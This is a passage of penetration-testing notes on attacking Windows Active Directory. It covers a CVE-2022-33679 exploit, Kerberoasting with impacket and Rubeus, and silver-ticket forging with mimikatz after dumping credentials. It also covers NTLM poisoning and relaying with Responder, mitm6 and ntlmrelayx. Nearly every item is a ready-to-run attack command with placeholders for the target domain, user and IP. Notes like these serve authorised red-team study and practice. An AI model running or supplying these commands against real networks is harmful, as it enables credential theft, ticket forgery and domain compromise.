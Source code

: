   - Doesn't require authentication, but does require a lack of Kerberos preauth on target account
  - Exploit: https://github.com/Bdenneu/CVE-2022-33679/tree/main
    - `CVE-2022-33679.py {domain}/{user} {target_IP}`

**Kerberoasting**
- Cracking the password of the service account by using the encrypted SPN password hash used on the service ticket
- Can use `impacket-GetUserSPNs` if remote with creds
	- `impacket-GetUserSPNs {domain}/{user}:{password} -dc-ip {IP} -request`
  - If we get an error along the lines of clock skew being too great, we can run `timedatectl set-ntp off` and `rdate -n {dc_ip}` to sync
- Can use `Rubeus` again if local
	- `.\Rubeus.exe kerberoast /outfile:hash.txt`
- Can crack with Hashcat's 13100 mode

**Silver Tickets**
- Forging our own service tickets via a password hash that should only be known to the DC and service account
	- This requires that Privileged Account Certificate (PAC) be disabled, which it often is
- To create the ticket, we need:
	- SPN password hash - can use `sekurlsa::logonpasswords` on machine with established session with application (usually(?) current machine)
	- Domain SID - `whoami /user` minus the last number (user RID)
    	- Alternatively, `wmic useraccount where name='{account_name}'`
	- Target SPN - basically just the DNS host name and the protocol (like HTTP)
- Performed using `mimikatz`
	- Don't escalate privileges to system
	- `kerberos::golden /sid:{sid} /domain:{domain} /ptt /target:{server_name} /service:{service_protocol_like_http} /rc4:{NTLM_hash} /user:{any_domain_user}`
		- `ptt` allows us to inject forged ticket into memory of target machine
- Then, we should be able to access the service. For example, `iwr -UseDefaultCredentials {protocol}://{server_name}` to view a webserver

## Poisoning, Coercing, and Relaying

**Poisoning**
- Poisoning is often your best friend on internals
  - Responder
    - Run `sudo responder -I {network_interface}` to respond to dns queries and host servers to capture the authentication sent
      - Can try to crack NTLMv2 hash
      - Can also relay it onwards to a server that doesn't have SMB signing
        - If done, make sure to disable responder's SMB and HTTP servers in `/etc/responder/Responder.conf`, as we no longer want to be the server receiving the auth
  - Mitm6
    - Windows prefers IPv6 to IPv4 by default, and will send out IPv6 configuration requests regularly
    - `mitm6` responds to these requests and can work with `ntlmrelayx`
      - Need `-6` option with `ntlmrelayx` so it will listen for IPv6
      - This can be dangerous as it doesn't necessarily intercept requests that are going to fail (like Responder intercepting a misspelled DNS request)
    - `mitm6 -d {domain}`
      - Doesn't need an interface as the tool will automatically detect which interface to listen on
